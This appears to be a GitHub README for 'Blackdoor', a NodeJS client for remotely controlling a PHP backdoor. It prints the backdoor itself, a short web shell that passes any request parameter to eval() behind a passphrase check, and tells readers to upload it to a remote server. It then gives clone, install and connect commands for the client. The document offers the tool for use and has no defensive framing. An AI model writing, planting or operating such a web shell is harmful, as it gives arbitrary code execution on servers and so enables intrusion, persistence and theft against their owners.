


Blackdoor is an NodeJS client for a simple `eval()` backdoor in PHP.

## Screenshots

 

## How to use

First, upload a PHP backdoor on remote server, like this:

```php
if(isset($_REQUEST['c']) && $_REQUEST['p'] == 'your-passphrase')
eval($_REQUEST['c']);
```

Locally, clone this project and install the dependencies:

```bash
git clone https://github.com/camillebaronnet/blackdoor.git
cd blackdoor
npm install
```

Now, you can connect:
```bash
./blackdoor.js -u http://exemple.com/backdoor.php -p your-passphrase
```

## Existing commands

All commands are available here : [commands/](commands/)

